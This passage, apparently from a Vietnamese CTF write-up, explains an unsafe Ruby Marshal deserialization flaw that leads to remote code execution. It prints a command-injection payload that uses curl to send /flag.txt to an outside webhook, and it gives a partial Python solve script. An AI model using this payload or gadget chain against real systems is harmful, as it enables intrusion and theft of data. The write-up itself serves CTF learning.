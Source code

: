 ```ruby
    flash.now[:alert] = "Failed to create template."
    render :new
end
                
```

Ở đây lỗi ở hàm merge. Nếu chúng ta đưa vào data, nó sẽ tiến hành deserialized nên mình có thể truyền vào một cái lệnh đã được serialized qua đó RCE được https://github.com/GitHubSecurityLab/ruby-unsafe-deserialization/blob/main/marshal/3.4-rc/marshal-rce-ruby-3.4-rc.rb
Ta có thể sử dụng payload sau để cat được flag
`zip_param_to_execute = "-TmTT=\"$(curl https://WEBHOOK-URL/flag=`cat /flag.txt`)\"any.zip"`
Tiến hành tạo gadget chain   
![image](./images/image68.png)

Và ta có solve script như sau 
                                   
```python
import requests
from bs4 import BeautifulSoup

username = "admin"
password = "mhzoegjhzenvwkdxfzacouooulqculcx"
base_url = "http://127.0.0.1:1337"
session = requests.Session()

login_page = session.get(f"{base_url}/login")
login_page.raise_for_status()
authenticity_token = getAuthenToken(login_page.text)
login_payload = {
    "username": username,
    "password": password,
    "authenticity_token": authenticity_token
}
response = session.post(f"{base_url}/login", data=login_payload)
response.raise_for_status()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]
                                   
def deserialization(typd):
    with open(typd, "rb") as file:
        content_data = file.read()
    contracts_page = session.get(f"{base_url}/contract_templates/new")
    contracts_page.raise_for_status()
```
